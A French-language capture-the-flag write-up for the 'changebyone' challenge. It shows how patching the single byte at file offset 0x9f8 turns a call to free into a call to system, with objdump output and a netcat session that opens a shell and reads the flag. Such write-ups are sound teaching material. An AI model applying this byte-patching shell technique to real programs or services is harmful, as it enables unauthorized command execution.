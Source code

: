 # WriteUp Kaname

Le but de ce chall est d'obtenir un shell en ne modifiant qu'un bit du programme.

Comme la solution joue sur des offsets, les scripts de solution peuvent changé pour chaque compilation

Pour résoudre ce challenge, il suffit de remplacer l'appel à free par un appel à system. Deplus, il est possible que certaine compilation ne permette pas d'éxecuter cette solution. Pour ma part, j'ai :

```
$ objdump -M intel -d changebyone
...
0000000000000730 <free@plt>:
 730:	ff 25 e2 08 20 00    	jmp    QWORD PTR [rip+0x2008e2]        # 201018 <free@GLIBC_2.2.5>
 736:	68 00 00 00 00       	push   0x0
 73b:	e9 e0 ff ff ff       	jmp    720 <.plt>
...
0000000000000750 <system@plt>:
 750:	ff 25 d2 08 20 00    	jmp    QWORD PTR [rip+0x2008d2]        # 201028 <system@GLIBC_2.2.5>
 756:	68 02 00 00 00       	push   0x2
 75b:	e9 c0 ff ff ff       	jmp    720 <.plt>
...
 9f4:	48 89 c7             	mov    rdi,rax
 9f7:	e8 34 fd ff ff       	call   730 <free@plt>
 9fc:	b8 00 00 00 00       	mov    eax,0x0
...
```

On a un écart de +0x20 entre les plt de free et system. Deplus, l'octet à modifier est à l'indice 0x9f8 du fichier.

Il faut donc rentrer :

```
$ nc 127.0.0.1 5796
Hi,

Before starting to exploit my unbreackable programm, I give you an opportunity.
You can change one byte of my binary.
Do you get this opportunity [Y/n] :
offset : 0x9f8
value : 0x54
Ok, Thank's.

Enjoy your chall !!!

 > /bin/sh # exit
ls
changebyone
changebyone.py
passwd
cat passwd
THC??{can_you_change_me}
```